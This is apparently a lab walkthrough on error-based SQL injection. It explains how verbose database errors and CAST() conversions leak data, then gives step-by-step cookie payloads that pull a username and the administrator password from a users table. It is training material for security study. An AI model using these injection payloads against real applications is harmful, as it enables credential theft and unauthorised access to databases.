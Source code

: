 Verbose error messages are dangerous since it could include information that may be useful to an attacker. This is usually caused by misconfiguration of the database. For example, consider the following error message, which occurs after injecting a single quote into an `id` parameter:
```txt
Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = '''. Expected char
```
This shows the full query that the application has constructed including our injected input, which makes it easier for us to construct a valid query containing a malicious payload.

Occasionally, you can even induce the application to generate an error message that contains some of the data that is returned by the query, turning a blind SQL injection into a visible one. You can do this by using the `CAST()` function, which enables you to convert one data type to another. For example:
```txt
...xyz' AND CAST((SELECT example_column FROM example_data) AS int)--
```
Often, the data that you're string to read is a string. Attempting to convert it to an incompatible data type, such as `int`, may cause the application to return an error:
```txt
ERROR: invalid input syntax for type integer: "Example data"
```
## Example
1. Using Burp's built-in browser, explore the lab functionality.
2. Go to the **Proxy > HTTP history** tab and find a `GET /` request that contains a `TrackingId` cookie.
3. In Repeater, append a single quote to the value of your `TrackingId` cookie and send the request.
    
    `TrackingId=ogAZZfxtOKUELbuJ'`
4. In the response, notice the verbose error message. This discloses the full SQL query, including the value of your cookie. It also explains that you have an unclosed string literal. Observe that your injection appears inside a single-quoted string.
5. In the request, add comment characters to comment out the rest of the query, including the extra single-quote character that's causing the error:
    
    `TrackingId=ogAZZfxtOKUELbuJ'--`
6. Send the request. Confirm that you no longer receive an error. This suggests that the query is now syntactically valid.
7. Adapt the query to include a generic `SELECT` subquery and cast the returned value to an `int` data type:
    
    `TrackingId=ogAZZfxtOKUELbuJ' AND CAST((SELECT 1) AS int)--`
8. Send the request. Observe that you now get a different error saying that an `AND` condition must be a boolean expression.
9. Modify the condition accordingly. For example, you can simply add a comparison operator (`=`) as follows:
    
    `TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT 1) AS int)--`
10. Send the request. Confirm that you no longer receive an error. This suggests that this is a valid query again.
11. Adapt your generic `SELECT` statement so that it retrieves usernames from the database:
    
    `TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT username FROM users) AS int)--`
12. Observe that you receive the initial error message again. Notice that your query now appears to be truncated due to a character limit. As a result, the comment characters you added to fix up the query aren't included.
13. Delete the original value of the `TrackingId` cookie to free up some additional characters. Resend the request.
    
    `TrackingId=' AND 1=CAST((SELECT username FROM users) AS int)--`
14. Notice that you receive a new error message, which appears to be generated by the database. This suggests that the query was run properly, but you're still getting an error because it unexpectedly returned more than one row.
15. Modify the query to return only one row:
    
    `TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--`
16. Send the request. Observe that the error message now leaks the first username from the `users` table:
    
    `ERROR: invalid input syntax for type integer: "administrator"`
17. Now that you know that the `administrator` is the first user in the table, modify the query once again to leak their password:
    
    `TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--`
18. Log in as `administrator` using the stolen password to solve the lab.